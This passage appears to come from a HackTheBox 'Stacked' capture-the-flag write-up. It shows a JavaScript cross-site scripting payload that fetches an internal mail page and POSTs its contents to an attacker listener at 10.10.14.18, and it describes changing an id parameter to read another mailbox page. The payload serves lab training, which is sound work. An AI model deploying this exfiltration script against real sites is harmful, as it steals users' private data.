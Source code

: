 ```python
```

Here's the script I used to retrieve the page contents:

```js
var url = "http://mail.stacked.htb/";
var attacker = "http://10.10.14.18:8000/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    var exfilxhr = new XMLHttpRequest();
    exfilxhr.open('POST', attacker, false);
    exfilxhr.send(xhr.responseText);
  }
};
xhr.open('GET', url, true);
xhr.send(null);
```

The output from this was a HTML page for an AdminLTE3 mailbox:

![](../../../.gitbook/assets/htb-stacked-image-7.png)

Interesting! I also noted that in the initial request, I saw the `Referer` header was set to `http://mail.stacked.htb/read-mail.php?id=2`. I changed the URL to make have the `id` parameter set to `1`, and stole the page.

There was this interesting chunk here:

![](../../../.gitbook/assets/htb-stacked-image-8.png)
